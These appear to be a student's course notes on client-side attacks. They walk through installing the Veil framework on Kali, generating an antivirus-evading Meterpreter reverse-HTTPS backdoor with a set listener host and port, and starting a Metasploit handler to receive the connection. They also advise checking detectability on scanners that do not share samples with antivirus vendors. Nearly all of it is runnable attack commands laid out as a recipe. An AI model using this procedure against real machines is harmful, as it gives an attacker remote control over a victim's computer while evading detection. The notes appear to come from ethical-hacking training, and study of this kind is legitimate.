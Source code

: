 # Gaining access — client side attack
-   used if server side attacks are not possible
-   requires user interaction
-   social engineering and information gathering is really helpful here

## Generate payload (in this case backdoor) with Veil framework
-   hard to create not traceble by antivirus program
-   install Veil on Kali with file `install-veil` in folder attachments or use these commands:
```bash
apt update
apt install -y veil
/usr/share/veil/config/setup.sh --force --silent
```
```bash
veil # start veil
```
-   it is important to keep veil up to date, so use the update often
-   2 main tools in Veil:
    1)  Evasion
        -   generates undetectable backdoors
    2)  Ordnance
        -   generates payloads, which are used by Evasion
        -   part of the "evil" code (reverse connection, downloads and executes file in bg, ...)
```bash
use 1 # uses Evasion tool
list # see all the available payloads
```
-   Meterpreter payloads designed by Metasploit. It runs into memory and it allows to migrate between system processes. For example to run from explorer process. So it is hard to detect.
    -   rev tcp/http/https => reverse connection (target connects to attacker), hard to detect in firewall, looks like user connects to website.

```bash
use 15 # use the payload go/meterpreter/rev_https.py, now configure the required options:
set LHOST 192.168.72.129
set LPORT 8080
set PROCESSORS 1 # not needed, uses only one processor
set SLEEP 6 # not needed, waits 6s before running the code
generate # generates the backdoor, will generate exe file, source code and handlers in displayed location
```
-   check detectability by antivirus programs by no distribute currently down, check alternatives like [kleenscan](https://kleenscan.com/index), <strong>just keep in mind that if virustotal will be used, it will share the results with antivirus programs.</strong>

### Prepare to listen for incomming connection from created payload (backdoor)
-   as mentioned the payload is generated by Metasploit, so use the metasploit to track it:
```bash
msfconsole
use exploit/multi/handler # use module which enables to listen to incomming connections
show options
set PAYLOAD windows/meterpreter/reverse_https # set the payload that was sellected before when generating it (in our case use 15 = go/meterpreter/rev_https.py)
set LHOST 192.168.72.129
set LPORT 8080
exploit # now if anybody opens the backdoor, it will come to this pc...
```
